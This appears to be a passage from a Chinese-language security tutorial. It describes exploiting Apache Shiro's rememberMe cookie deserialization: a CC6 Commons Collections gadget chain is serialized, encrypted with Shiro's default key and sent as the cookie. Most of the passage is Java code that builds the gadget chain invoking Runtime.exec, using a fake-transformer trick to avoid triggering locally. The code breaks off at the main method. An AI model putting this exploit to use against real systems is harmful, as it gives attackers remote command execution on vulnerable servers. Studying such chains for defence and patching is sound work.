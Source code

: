 # 0x02 Way To Attack

1. 使用CC6利用链生成一个序列化Payload
2. 使用Shiro默认Key进行加密
3. 将密文作为rememberMe的Cookie发送给服务端

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class GenePayLoad {
    public static byte[] CC6_PayLoad(String args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        // 假的payload
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "ikey");
        Map expMap = new HashMap();
        // put的时候也会执行hashCode，为了防止本地调试触发payload，这里放入假的payload
        expMap.put(tiedMapEntry, "xxx");

        outerMap.remove("ikey");

        // 将真正的transformers数组设置进来
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        return baos.toByteArray();
    }

    public static void main(String[] args) throws Exception {
```